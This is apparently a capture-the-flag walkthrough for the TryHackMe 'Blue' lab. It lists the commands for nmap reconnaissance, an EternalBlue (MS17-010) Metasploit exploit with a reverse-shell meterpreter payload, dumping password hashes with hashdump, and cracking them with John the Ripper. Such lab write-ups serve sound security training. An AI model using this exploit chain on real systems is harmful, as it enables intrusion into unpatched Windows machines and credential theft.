 # Blue

**Room Link:** [https://tryhackme.com/room/blue](https://tryhackme.com/room/blue)

## **Walkthrough**

### **Recon**

`nmap -A 10.10.68.22`

``<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="original">``

The box is vulnerable to ms17-010

`nmap -p135,139,445,3389 --script=vuln 10.10.68.22`

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

### Gain Access / Escalate



`msfconsole`&#x20;

`search eternalblue`&#x20;

`use exploit/windows/smb/ms17_010_eternalblue`&#x20;

`set payload windows/x64/meterpreter/reverse_tcp`&#x20;

`set RHOSTS 10.10.68.22`&#x20;

`run`

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### Cracking

`hashdump`

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

`john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt`

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

### Flags

Just ran this to find the locations of all the flags then grabbed them

`cd C:\`

`dir "flag*" /s`

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>
